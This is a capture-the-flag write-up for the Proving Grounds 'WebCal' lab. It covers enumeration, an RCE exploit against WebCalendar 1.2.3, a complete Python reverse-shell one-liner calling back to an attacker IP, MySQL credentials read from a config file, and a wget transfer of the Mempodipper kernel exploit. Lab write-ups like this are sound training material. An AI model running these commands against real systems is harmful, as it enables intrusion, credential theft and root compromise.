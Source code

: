 ```yaml
---
description: Writeup for WebCal from Offensive Security Proving Grounds (PG)
---
```


# WebCal

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.66.37 -t full`

![](../../.gitbook/assets/3af61e400c594392bd79c8ab1f9fb8d8.png)

`nmapAutomator.sh -H 192.168.66.37 -t vulns`

![](../../.gitbook/assets/e2f62497e8794c54a9b09622bfa5aebc.png)

![](../../.gitbook/assets/b646b002be034d1c994d281a253c8595.png)

### HTTP

![](../../.gitbook/assets/eec0eca2638148bf923d427329916abb.png)

`gobuster dir -u http://192.168.66.37/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50`

![](../../.gitbook/assets/0429b7f13a944fa3a648c019980f37c7.png)

* /resources
* /send
* /webcalendar

We find a login page at `http://192.168.66.37/webcalendar/login.php`.

![](../../.gitbook/assets/78de1e60b6414506a0ad3d3e7d54bc44.png)

The version is v1.2.3

## Exploit

WebCalendar &lt;= v1.2.4 suffers from an RCE vulnerability: [https://www.exploit-db.com/exploits/18775](https://www.exploit-db.com/exploits/18775)

Simply running the exploit above gives us RCE. `php 18775.php 192.168.66.37 /webcalendar/`

![](../../.gitbook/assets/8977a6a9c0ac46499940a756c072ec7d.png)

Once here, we can use a Python payload to catch a reverse shell on our Kali machine.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.66",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

![](../../.gitbook/assets/c4bba3402d714ca3a88cc8d3d09121cf.png)

On our Kali machine:

![](../../.gitbook/assets/8a0406a755c44e44a52e901c12bd9190.png)

![](../../.gitbook/assets/f3702a7cf9ad455da6df239e8298126b.png)

## Privilege Escalation

### MySQL

The `settings.php` file looks interesting.

![](../../.gitbook/assets/00f3d4c81f3048829db8819f979d5855.png)

Upon further inspection, the MySQL database credentials are in this file.

![](../../.gitbook/assets/445285c4d569403cb175567209d6bc79.png)

Furthermore, we now have access to port 3306, which is the MySQL port.

![](../../.gitbook/assets/724b343fa230482b9c35d9ef90ec297b.png)

```text
www-data@ucal:/home$ mysql --user=wc --password 
Enter password: edjfbxMT7KKo2PPC
```

![](../../.gitbook/assets/f7269c70496846ffa17cd9ba79c79d96.png)

![](../../.gitbook/assets/db91a3c3fe1d41fa8c82372e88a3f1ee.png)

### Kernel Exploit

The kernel version 3.0.0 is vulnerable to an exploit called Mempodipper.

![](../../.gitbook/assets/92ac0c212dde43ffac643a06f9faa240.png)

Compile: `gcc mempodipper.c -o mempodipper`

Transfer: `wget "192.168.49.66/mempodipper" -O mempodipper`

![](../../.gitbook/assets/389c736476d54a88b1cf246057784dc4.png)

![](../../.gitbook/assets/d214e7915ef24d1d94ff05ac13f15f04.png)


